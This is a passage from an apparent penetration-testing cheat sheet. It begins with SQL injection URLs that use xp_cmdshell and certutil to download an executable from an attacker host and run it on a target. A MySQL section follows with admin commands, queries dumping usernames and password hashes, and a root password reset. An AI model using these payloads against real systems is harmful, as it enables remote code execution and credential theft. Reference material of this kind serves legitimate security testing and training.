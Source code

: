 ```c
http://<RHOST>/index.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://<LHOST>/<FILE>.exe C:\Windows\Temp\<FILE>.exe'; --
```

```c
http://<RHOST>/index.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\<FILE>.exe'; --
```

## MySQL

> https://www.mysqltutorial.org/mysql-cheat-sheet.aspx

```c
$ mysql -u root -p
$ mysql -u <USERNAME> -h <RHOST> -p
```

### Common Commands

```c
mysql> STATUS;
mysql> SHOW databases;
mysql> USE <DATABASE>;
mysql> SHOW tables;
mysql> DESCRIBE <TABLE>;
mysql> SELECT version();
mysql> SELECT system_user();
mysql> SELECT * FROM Users;
mysql> SELECT * FROM users \G;
mysql> SELECT Username,Password FROM Users;
musql> SELECT user, authentication_string FROM mysql.user WHERE user = '<USERNAME>';
mysql> SHOW GRANTS FOR '<USERNAME>'@'localhost' \G;
```

### Enumerate Version

```c
$ mysql -u root -p -e 'select @@version;'
```

### Password Reset

```c
$ sudo systemctl stop mysql.service
$ sudo mysqld_safe --skip-grant-tables &
$ mysql -uroot
$ use mysql;
$ update user set authentication_string=PASSWORD("mynewpassword") where User='root';
$ flush privileges;
$ quit
$ sudo systemctl start mysql.service
```

> https://bcrypt-generator.com/
